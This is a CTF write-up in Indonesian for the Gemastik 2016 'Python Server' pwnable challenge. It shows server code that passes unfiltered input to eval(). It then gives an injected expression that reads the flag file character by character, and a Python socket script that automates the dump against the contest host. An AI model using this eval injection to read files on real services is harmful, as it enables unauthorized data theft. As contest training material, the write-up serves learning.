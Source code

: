 ```yaml
---
layout: post
title: "Gemastik CTF 2016 : Python Server - 100"
description: "Writeup Gemastik 2016 Online Capture The Flag Qualification"
headline: 
modified: 2016-08-15
date: 2016-08-15
category: CTF
tags: [gemastik,Pwnable]
imagefeature: /images/gemastik.png
mathjax: 
chart: 
comments: true
featured: false
---
```


### Problem :

![Python Server](/images/python-server.png)


### Solusi :

Di dalam source code yang di berikan ternyata terlihat input yang kita berikan di jalankan di dalam *eval()*

```python
    req.sendall("Dec to Hex Converter - Insert number : ")
    number = req.recv(512)[:-1]
    req.sendall(hex(eval(number)) + "\n")
```

input kita pun tidak di filter dan memungkinkan kita untuk menjalankan expression sesuka kita, di dalam source code juga
ada baris code ini `flag = open('PythonServer.flag').read()` terlihat bahwa flag tersimpan di PythonServer.flag 
kemudian kita gunakan `ord(open('PythonServer.flag').read()[0])` untuk mengambil per index dari file PythonServer.flag
dan mengirimkan dalam bentuk decimal nanti output nya dalam bentuk hex. untuk mempercepat dump flag kami gunakan python.

```python
import socket

s = "target.netsec.gemastik.ui.ac.id"
port = 13338

result = ""
sock = socket.socket()
sock.connect((s, port))

print sock.recv(2048)
print sock.recv(2048)
sock.send("guest\n")
sock.send("guest\n")
x = 0

print sock.recv(2048)

while True:
    print sock.recv(2048)
    sock.send("hex\n")
    print sock.recv(2048)
    sock.send("ord(open('PythonServer.flag').read()["+str(x)+"])\n")
    data = sock.recv(2048)
    if "Please insert number" in data :
        break
    flags = chr(int(data,16))
    result += flags
    print data
    x += 1    
    
print result.rstrip('\n')
```

![Python Server Flag](/images/python-server-flag.png)
